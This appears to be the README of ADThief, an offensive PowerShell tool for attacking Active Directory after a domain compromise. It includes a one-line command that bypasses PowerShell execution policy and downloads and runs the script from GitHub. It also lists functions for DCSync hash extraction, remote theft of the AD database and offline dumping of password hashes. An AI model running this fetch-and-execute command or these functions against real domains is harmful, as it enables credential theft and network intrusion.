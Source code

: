 # ADThief

ADThief is a PowerShell tool to exploit Active Directory database after compromising a Windows domain.

## Usage

To run on a machine, start PowerShell and then load the module:

```
PS C:\> powershell -EP bypass; IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/tmenochet/ADThief/master/ADThief.ps1')
```

## Functions

```
Invoke-DCSync                   -   extracts domain accounts from Active Directory, including password hashes
Get-ADDatabase                  -   steals Active Directory database remotely
Dump-ADDatabase                 -   dumps domain accounts from an offline Active Directory database, including password hashes
Mount-ADDatabase                -   mounts an Active Directory database as a local LDAP server
Invoke-LdapSearch               -   searchs for domain objects in a mounted Active Directory database
```

## Credits

* https://blog.netspi.com/getting-started-wmi-weaponization-part-4/
* https://github.com/MichaelGrafnetter/DSInternals
